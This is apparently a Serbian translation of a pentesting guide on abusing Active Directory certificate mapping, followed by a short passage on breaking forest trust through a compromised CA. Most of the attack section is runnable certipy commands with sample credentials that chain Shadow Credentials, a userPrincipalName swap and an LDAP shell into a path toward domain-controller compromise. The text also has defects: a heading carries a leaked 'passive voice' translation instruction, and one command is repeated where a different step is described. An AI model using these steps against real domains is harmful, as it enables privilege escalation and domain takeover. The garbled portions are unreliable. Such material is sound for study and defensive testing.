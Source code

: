 Sa `CertificateMappingMethods` koji sadrži `UPN` bit flag (`0x4`), nalog A sa `GenericWrite` dozvolama može kompromitovati bilo koji nalog B koji nema svojstvo `userPrincipalName`, uključujući mašinske naloge i ugrađeni administratorski nalog domena `Administrator`.

Ovde je cilj kompromitovati `DC$@corp.local`, počevši od dobijanja `Jane`-inog heša putem Shadow Credentials, iskorišćavajući `GenericWrite`.

```bash
certipy shadow auto -username John@corp.local -p Passw0rd! -account Jane
```

`userPrincipalName` od `Jane` zatim je postavljen na `DC$@corp.local`.

```bash
certipy account update -username John@corp.local -password Passw0rd! -user Jane -upn 'DC$@corp.local'
```

Zahtevan je sertifikat za autentifikaciju klijenta kao `Jane` koristeći podrazumevani `User` šablon.

```bash
certipy req -ca 'corp-DC-CA' -username Jane@corp.local -hashes <hash>
```

`userPrincipalName` od `Jane` se vraća na originalnu vrednost nakon ovog procesa.

```bash
certipy account update -username John@corp.local -password Passw0rd! -user Jane -upn 'Jane@corp.local'
```

Za autentifikaciju putem Schannela koristi se Certipy-eva opcija `-ldap-shell`, koja označava uspeh autentifikacije kao `u:CORP\DC$`.

```bash
certipy auth -pfx dc.pfx -dc-ip 172.16.126.128 -ldap-shell
```

Kroz LDAP shell, komande poput `set_rbcd` omogućavaju napade na ograničeno delegiranje resursa (RBCD), što potencijalno kompromituje kontroler domena.

```bash
certipy auth -pfx dc.pfx -dc-ip 172.16.126.128 -ldap-shell
```

Ova ranjivost se takođe odnosi na bilo koji korisnički nalog koji nema `userPrincipalName` ili kada se ne podudara sa `sAMAccountName`, pri čemu je podrazumevani `Administrator@corp.local` glavna meta zbog svojih povišenih LDAP privilegija i nedostatka `userPrincipalName` po podrazumevanju.

## Kompromitovanje šuma pomoću sertifikata objašnjeno pasivnim glagolskim oblikom

### Prekid šumske poverenice kompromitovanim CA

Konfiguracija za **prekograničnu registraciju** je relativno jednostavna. **Root CA sertifikat** iz resursnog šuma je **objavljen u šumovima naloga** od strane administratora, a **enterprise CA** sertifikati iz resursnog šuma su **dodati u `NTAuthCertificates` i AIA kontejnere u svakom šumu naloga**. Da bismo razjasnili, ovaj aranžman daje **CA u resursnom šumu potpunu kontrolu** nad svim drugim šumovima za koje upravlja PKI. Ako ovaj CA bude **kompromitovan od strane napadača**, sertifikati za sve korisnike u resursnom i šumu naloga mogu biti **falsifikovani od strane njih**, čime se krši sigurnosna granica šuma.
